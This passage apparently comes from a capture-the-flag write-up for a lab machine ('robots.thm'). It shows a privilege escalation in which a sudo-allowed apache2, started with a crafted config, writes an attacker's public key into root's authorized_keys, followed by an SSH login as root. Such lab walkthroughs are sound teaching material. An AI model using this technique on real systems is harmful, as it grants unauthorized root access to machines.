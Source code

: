 Now, we can simply start `apache2` with this configuration and make a request to the started web server for our log to be written:

```console
dolivaw@ubuntu-jammy:~$ sudo /usr/sbin/apache2 -f /tmp/log.conf -k start
dolivaw@ubuntu-jammy:~$ curl http://127.0.0.1:8080/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
```

After making the request, our public key should be written to `/root/.ssh/authorized_keys`. We can then simply use the private key with `SSH` to get a shell as `root` and retrieve the flag:

```console
$ ssh -i id_ed25519 root@robots.thm
root@ubuntu-jammy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-jammy:~# wc -c /root/root.txt
37 /root/root.txt
```

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>